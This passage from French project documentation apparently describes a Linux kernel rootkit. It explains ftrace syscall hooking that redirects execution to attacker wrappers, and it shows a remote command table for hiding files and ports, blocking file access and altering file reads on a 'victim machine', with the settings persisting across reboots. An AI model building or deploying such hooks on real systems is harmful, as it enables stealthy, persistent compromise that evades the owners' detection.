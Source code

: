 Une fois ces champs positionnés, on doit informer ftrace quelles adresses doivent etre surveillées. C’est le rôle de `ftrace_set_filter_ip`, à laquelle on passe l’adresse calculée `hook->address` et un indicateur à 0 pour signifier un ajout. Enfin, on appelle `register_ftrace_function(&hook->ops)` pour que le noyau appelle systématiquement `fh_ftrace_thunk` lorsqu’une invocation à cette adresse se produit.

#### 3.1.4 fh_ftrace_thunk

Dès qu’elle est invoquée, cette fonction récupère la structure ftrace_hook grâce à `container_of` (fonction magique), puis vérifie que le `parent_ip` ne provient pas du module lui-même. Enfin, on modifie le registre `regs->ip` pour qu’il pointe vers notre *wrapper*. Ainsi, lorsque ftrace rend la main, le flux d’exécution sautera directement vers la fonction de hook au lieu d’appeler la fonction native ahah !
```c
struct ftrace_hook *hook = container_of(ops, struct ftrace_hook, ops);
  if (!within_module(parent_ip, THIS_MODULE))
    ((struct pt_regs *)regs)->ip = (unsigned long)hook->function;
```

#### 3.1.6 Autre

Les autres fonctions de ftrace.c permettent de gérer la liste des hooks à installer, ainsi que le désenregistrement des hooks ftrace (fh_remove_hook, fh_install_hooks et fh_remove_hooks).

### 3.2 ⚙️ API

Comme mentionné dans la section [Utilisation](dc/da7/md_pages_204__usage.html), les hooks disposent d’un sous-menu spécifique défini dans menu.c, permettant d’interagir facilement à distance avec les différentes fonctions. Ce menu repose sur la même structure et les mêmes principes que celui de cmd.c. Pour chaque catégorie, trois commandes sont disponibles : une pour ajouter un hook, une pour le supprimer, et une pour lister les éléments actuellement affectés par un hook ftrace. Ci-dessous figure un aperçu de ce menu et des différentes fonctions associées. Lors de l’utilisation, il suffit d’exécuter la commande help pour afficher l’ensemble des commandes disponibles. Chaque liste de fichiers affectés par les hooks est dynamique et enregistrée dans des fichiers de configuration sur la machine victime. Ainsi, à chaque redémarrage, la configuration est automatiquement restaurée.
```c
static struct command hooks_commands[] = {
    { "hide", 4, "hide a file or directory (getdents64 hook)", 43, hide_dir_handler },
    { "unhide", 6, "unhide a file or directory", 32, unhide_dir_handler },
    { "list_hide", 9, "list hidden files/directories", 34, list_hidden_handler },
    { "add_port", 8, "add port to hide", 16, hide_port_handler },
    { "remove_port", 11, "remove hidden port", 18, unhide_port_handler },
    { "list_port", 9, "list hidden ports", 17, list_hidden_port_handler },
    { "forbid", 6, "forbid open/stat on a file (openat/stat/lstat... hook)", 55, forbid_file_handler },
    { "unforbid", 8, "remove forbid on a file", 30, unforbid_file_handler },
    { "list_forbid", 11, "list forbidden files", 30, list_forbidden_handler },
    { "modify", 6, "[CAREFUL] modify a file with hide/replace operation (read hook)", 64, modify_file_handler },
    { "unmodify", 8, "unmodify a file", 30, unmodify_file_handler },
    { "list_modify", 11, "list alterate rules", 30, list_alterate_handler },
    { "help", 4, "display hooks help menu", 25, hooks_help },
    { NULL, 0, NULL, 0, NULL }
};
```
